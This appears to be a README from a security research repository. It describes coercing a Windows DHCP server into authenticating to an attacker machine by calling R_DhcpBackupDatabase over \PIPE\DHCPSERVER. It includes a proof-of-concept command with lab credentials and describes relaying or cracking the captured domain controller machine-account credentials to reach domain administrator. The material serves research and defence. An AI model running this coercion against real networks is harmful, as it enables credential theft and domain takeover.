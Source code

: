 # MS-DHCPM - Remote call to R_DhcpBackupDatabase (opnum 44)

## Summary

+ **Protocol**: [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4)

+ **Protocol UUID**: 6bffd098-a112-3610-9833-46c3f874532d

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\DHCPSERVER`

+ **Function name**: [`R_DhcpBackupDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b)

+ **Function operation number**: `44`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DHCPSERVER` and bind to the desired [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol (with uuid `6bffd098-a112-3610-9833-46c3f874532d` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-DHCPM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DHCPSERVER` This pipe is connected to the protocol [[MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4) and allows to call RPC functions of this protocol. We will then call the remote [`R_DhcpBackupDatabase`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DhcpBackupDatabase('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_DhcpBackupDatabase(
   [in, unique, string] DHCP_SRV_HANDLE ServerIpAddress,
   [in, string] LPWSTR Path
 );
```

## References

+ Documentation of protocol [MS-DHCPM]: Microsoft Dynamic Host Configuration Protocol (DHCP) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/d117857c-1491-46a2-a68e-c844be3627d4

+ Documentation of function `R_DhcpBackupDatabase`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dhcpm/f2b03c0f-218d-47dd-87f4-c1be817b366b